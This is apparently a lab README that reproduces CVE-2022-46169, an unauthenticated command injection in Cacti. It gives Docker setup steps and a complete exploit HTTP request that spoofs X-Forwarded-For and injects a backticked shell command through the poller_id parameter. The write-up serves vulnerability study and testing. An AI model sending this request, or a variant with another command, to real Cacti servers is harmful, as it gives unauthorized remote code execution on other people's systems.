

# Cacti Unauthenticated Command Injection (CVE-2022-46169)

[中文版本(Chinese version)](README.zh-cn.md)

Cacti is a robust and extensible operational monitoring and fault management framework for users around the world. A command injection vulnerability allows an unauthenticated user to execute arbitrary code on a server running Cacti prior from version 1.2.17 to 1.2.22, if a specific data source was selected for any monitored device.

References:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf>
- <https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A>

## Vulnerability Environment

Execute following command to start a Cacti server 1.2.22:

```
docker-compose up -d
```

After the server is started, you will see the login page at `http://localhost:8080`.

Then login as admin/admin, follow the instructions to initialize the application. Actually, just click the "next button" again and again before you see the success page.


Before you can exploit this vulnerability, you have to add a new "Graph" because the command injection is occurred not in the default graph type:



Select the graph type "Device - Uptime", and click the "Create" button:


## Exploit

After complete the above initialization, you will change your role to a attacker. Just send following request to Cacti server to trigger the command injection attack:

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```


Although no command result in the response, you can find the `/tmp/success` has been touched successfully.


